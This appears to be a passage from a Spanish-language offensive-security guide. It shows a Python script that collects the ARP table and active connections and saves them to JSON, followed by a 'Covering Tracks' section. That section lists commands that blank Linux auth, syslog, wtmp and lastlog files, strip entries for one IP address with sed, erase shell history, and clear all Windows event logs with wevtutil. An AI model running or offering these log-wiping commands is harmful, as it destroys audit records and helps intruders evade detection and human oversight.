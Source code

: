```python
        result = subprocess.run(['arp', '-a'], capture_output=True, text=True)
        info['arp_table'] = result.stdout
    except:
        pass
    
    # Conexiones activas
    try:
        result = subprocess.run(['netstat', '-tuln'], capture_output=True, text=True)
        info['connections'] = result.stdout
    except:
        pass
    
    return info

def save_info(info, filename='network_info.json'):
    """Guardar información en archivo"""
    with open(filename, 'w') as f:
        json.dump(info, f, indent=2)
    print(f"[+] Información guardada en {filename}")

if __name__ == "__main__":
    network_info = get_network_info()
    save_info(network_info)
```

## 🕳️ Covering Tracks

### 1. Limpieza de Logs

```bash
# Linux - Limpiar logs comunes
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
echo "" > /var/log/wtmp
echo "" > /var/log/lastlog

# Eliminar entradas específicas
sed -i '/192.168.1.50/d' /var/log/auth.log

# Limpiar historial de comandos
history -c
echo "" > ~/.bash_history
unset HISTFILE

# Windows - Limpiar Event Logs
wevtutil cl Application
wevtutil cl System
wevtutil cl Security

# Limpiar logs específicos
for /f %i in ('wevtutil el') do wevtutil cl "%i"
```
